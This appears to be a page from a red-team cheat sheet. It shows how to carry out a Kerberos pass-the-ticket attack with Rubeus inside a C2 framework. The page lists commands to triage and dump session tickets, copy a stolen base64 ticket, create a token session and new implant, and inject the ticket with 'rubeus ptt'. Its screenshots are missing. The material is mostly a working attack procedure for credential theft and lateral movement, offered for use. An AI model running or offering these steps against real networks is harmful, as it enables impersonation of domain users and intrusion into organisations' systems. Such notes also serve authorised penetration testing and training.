 # Rubeus

## Rubeus

### Pass the Ticket

#### - Show all session tickets

```
Rubeus triage
```

![](<../../../../.gitbook/assets/image (3) (1).png>)

#### - Dump the tickets

```
Rubeus dump
```

![](<../../../../.gitbook/assets/image (103).png>)

#### Loot are available in Data pane:

![](<../../../../.gitbook/assets/image (275).png>)

#### Copy the base64 ticket (bug from data interface, copy the interactive window)

![](<../../../../.gitbook/assets/image (311).png>)

#### Create a new session using MakeToken

```
MakeToken help

[!] Usage: MakeToken <username> <domain> <password>[ <logontype> ]
```

![](<../../../../.gitbook/assets/image (272).png>)

#### Create a new grunt session&#x20;

```
CreateProcessWithToken

[!] Usage: CreateProcessWithToken <command>[ <path> ]
```

![](<../../../../.gitbook/assets/image (101).png>)

#### Pass the ticket

```
rubeus ptt /ticket:
```

![](<../../../../.gitbook/assets/image (260).png>)

![](<../../../../.gitbook/assets/image (12).png>)

#### cifs ticket injected&#x20;

![](<../../../../.gitbook/assets/image (126).png>)

###
